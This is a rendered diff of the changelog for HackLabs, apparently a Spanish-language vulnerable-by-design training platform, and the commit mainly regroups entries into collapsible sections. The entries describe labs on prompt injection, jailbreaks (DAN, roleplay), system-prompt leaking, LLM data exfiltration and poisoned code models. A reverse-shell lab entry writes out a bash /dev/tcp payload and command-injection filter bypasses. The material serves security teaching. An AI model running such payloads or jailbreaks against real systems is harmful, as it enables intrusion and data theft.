

Before and after one commit to afsh4ck/HackLabs, a Markdown page: CHANGELOG.md, the part around one of its changes. Shown at 97% size. Drawn GitHub-style; folded sections open.

```diff
--- a/CHANGELOG.md
+++ b/CHANGELOG.md
@@ -54,27 +72,41 @@
 - feat(idor): El lab de IDOR ahora muestra `HL{idor_privilege_escalation}` al consultar un perfil de otro usuario (ID distinto de 1).
 - fix(app): La validacion global de cobertura de flags se ejecuta despues de definir `get_lab_list()` para evitar `NameError` en arranque.
 
-## 2026-04-30 — IA Attacks: mejoras a 3 labs existentes + 3 nuevos labs
+</details>
 
-### Mejoras a labs existentes
-- feat(prompt_injection): Prompt Inspector colapsable que muestra la estructura interna SYSTEM/USER del prompt por dificultad. Hard mode añade output filter que censura HL{...} — bypass via base64/ROT13.
-- feat(ai_jailbreak): Filter Bypass Meter con 3 escudos (Content Filter, Roleplay Detector, System Adherence) que se actualizan en tiempo real. Biblioteca de técnicas clickables (DAN, Developer Mode, Roleplay, Hypothetical, Structured). Medium requiere warm-up de 1 mensaje previo.
-- feat(indirect_injection): Agent Action Log terminal que muestra cada paso del agente (lectura, parsing, detección, ejecución). Botones de payload template para inyecciones directas al textarea.
+## 2026-04-30
 
-### Nuevos labs IA Attacks
-- feat(prompt_leaking): Chat con CorpBot que resiste revelaciones directas. Easy: pregunta directa. Medium: traducción/reformulación. Hard: codificación base64. Flag: HL{pr0mpt_l34k3d_succ3ssfully}.
-- feat(llm_exfil): Layout dual: chat markdown-rendering a la izquierda, Attacker Server Log a la derecha mostrando peticiones capturadas con datos sensibles. Easy: tracking pixel directo. Medium: framing indirecto. Hard: inyección via documento.
-- feat(ai_supply_chain): Editor de código con Backdoor Analyzer. El modelo envenenado introduce backdoors según el trigger: print(password) (easy), comparación plaintext (medium), keylogger en audit log (hard). Flag: HL{4i_supp1y_ch41n_pwn3d}.
+<details>
+<summary><h4>IA Attacks: Mejoras a Labs Existentes</h4></summary>
 
-## 2026-04-30 — 3 nuevos labs: Clickjacking, 2FA Bypass, Password Reset Poisoning
+- feat(prompt_injection): Prompt Inspector colapsable que muestra la estructura interna SYSTEM/USER del prompt por dificultad. Hard mode aÃ±ade output filter que censura HL{...}; bypass via base64/ROT13.
+- feat(ai_jailbreak): Filter Bypass Meter con 3 escudos (Content Filter, Roleplay Detector, System Adherence) que se actualizan en tiempo real. Biblioteca de tecnicas clickables (DAN, Developer Mode, Roleplay, Hypothetical, Structured). Medium requiere warm-up de 1 mensaje previo.
+- feat(indirect_injection): Agent Action Log terminal que muestra cada paso del agente (lectura, parsing, deteccion, ejecucion). Botones de payload template para inyecciones directas al textarea.
 
-- feat(clickjacking): Demo interactivo con slider de opacidad que revela el iframe sobre el botón decoy. Easy: sin protección. Medium: frame-busting JS (bypass via sandbox attr). Hard: X-Frame-Options DENY + CSP frame-ancestors none.
-- feat(2fa_bypass): Login con OTP simulado y mockup de teléfono con countdown. Easy: OTP filtrado en X-Debug-OTP header y comentario HTML. Medium: 4 dígitos sin rate-limit (Burp Intruder). Hard: race condition TOCTOU entre check y mark-as-used.
+</details>
+
+<details>
+<summary><h4>IA Attacks: Nuevos Labs</h4></summary>
+
+- feat(prompt_leaking): Chat con CorpBot que resiste revelaciones directas. Easy: pregunta directa. Medium: traduccion/reformulacion. Hard: codificacion base64. Flag: HL{pr0mpt_l34k3d_succ3ssfully}.
+- feat(llm_exfil): Layout dual: chat markdown-rendering a la izquierda, Attacker Server Log a la derecha mostrando peticiones capturadas con datos sensibles. Easy: tracking pixel directo. Medium: framing indirecto. Hard: inyeccion via documento.
+- feat(ai_supply_chain): Editor de codigo con Backdoor Analyzer. El modelo envenenado introduce backdoors segun el trigger: print(password) (easy), comparacion plaintext (medium), keylogger en audit log (hard). Flag: HL{4i_supp1y_ch41n_pwn3d}.
+
+</details>
+
+<details>
+<summary><h4>Nuevos Labs: Clickjacking, 2FA Bypass y Password Reset Poisoning</h4></summary>
+
+- feat(clickjacking): Demo interactivo con slider de opacidad que revela el iframe sobre el boton decoy. Easy: sin proteccion. Medium: frame-busting JS (bypass via sandbox attr). Hard: X-Frame-Options DENY + CSP frame-ancestors none.
+- feat(2fa_bypass): Login con OTP simulado y mockup de telefono con countdown. Easy: OTP filtrado en X-Debug-OTP header y comentario HTML. Medium: 4 digitos sin rate-limit (Burp Intruder). Hard: race condition TOCTOU entre check y mark-as-used.
 - feat(reset_poisoning): Formulario de reset con bandeja de entrada simulada. Muestra badge POISONED/SAFE por email. Easy: Host header. Medium: X-Forwarded-Host. Hard: X-Host. Flag al confirmar token envenenado.
 
-## 2026-04-30 — Nuevo lab: Reverse Shell
+</details>
 
-- feat(reverse_shell): Nuevo laboratorio "Reverse Shell" en categoría Vulnerabilidades (riesgo critical).
+<details>
+<summary><h4>Nuevo Lab: Reverse Shell</h4></summary>
+
+- feat(reverse_shell): Nuevo laboratorio "Reverse Shell" en categoria Vulnerabilidades (riesgo critical).
   - Mecanica: "URL Health Checker" vulnerable que ejecuta `curl ... {url}` con `shell=True`.
   - Easy: sin filtrado, bash TCP reverse shell directo (`; bash -i >& /dev/tcp/IP/PORT 0>&1`).
   - Medium: filtra `;` y `|`; bypass con `&&` o newline URL-encoded (`%0a`) via Burp Suite.
@@ -82,5 +114,5 @@
   - Resolucion bilingue (ES/EN) con payloads por dificultad, mkfifo, estabilizacion de TTY y `pty.spawn`.
   - Deteccion de timeout como indicador de shell establecida.
 
-## 2026-04-28 — 4 nuevos labs + mejoras a 6 labs existentes
+</details>
 
```
Also changed, not shown: other parts of CHANGELOG.md (+90 -55 lines).
